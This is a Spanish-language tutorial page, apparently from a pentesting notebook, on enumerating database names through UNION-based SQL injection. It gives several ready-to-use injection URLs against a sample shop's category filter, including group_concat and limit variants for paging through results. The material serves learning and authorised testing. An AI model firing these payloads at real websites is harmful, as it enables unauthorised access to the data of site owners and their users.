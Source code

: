 

## Enumeración

### Enumerando Bases de Datos

Para enumerar bases de datos existentes a través de una SQLi, una vez hayamos comprobado el numero de columnas que se están empleando en la web, a través de uno de los campos, insertamos una consulta con `union` ej:

<pre class="language-url" data-full-width="false"><code class="lang-url"><strong>https://myshop.com/filter?category=Pets' union select NULL, schema_name from information_schema.schemata-- -
</strong></code></pre>

En el caso de que el campo vulnerable sea el primero sería de la siguiente forma:

<pre data-full-width="false"><code><strong>https://myshop.com/filter?category=Pets' union select schema_name,NULL from information_schema.schemata-- -
</strong></code></pre>

{% code fullWidth="false" %}
```sql
SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL, schema_name FROM information_schema.schemata-- -'
```
{% endcode %}

En esta inyección, lo que pasará es que la web nos devolverá en este caso (existen 2 columnas) en el campo de la segunda columna el nombre de todas las bases de datos a las que el usuario que ejecuta la consulta por detrás puede leer

{% hint style="warning" %}
Algunas SQLi, no se producen exitosamente ya que no se pueden visualizar los datos en diferentes filas, para ello usamos `group_concat(schema_name)` para poder visualizar los nombres de las BD en una sola fila. Ej.

{% code fullWidth="true" %}
```url
https://myshop.com/filter?category=Pets' union select NULL,group_concat(schema_name) from information_schema.schemata-- -
```
{% endcode %}

En el caso de que tampoco nos deje ver los datos de esta forma, lo haremos de la forma tradicional, que muestra los datos en diferentes filas de la columna con el parámetro vulnerable, pero limitando los datos que nos muestra con `limit 0,1` Ej.

```url
https://myshop.com/filter?category=Pets' union select NULL, schema_name from information_schema.schemata limit 0,1-- -
```

Si de esta manera, nos muestra algún dato, solo tendremos que ir bajando de fila para que muestre otro dato diferente, eso lo hacemos cambiando el primer valor del limit Ej. `limit 1,1`, `limit 2,1`, `limit 3,1` y así sucesivamente
{% endhint %}
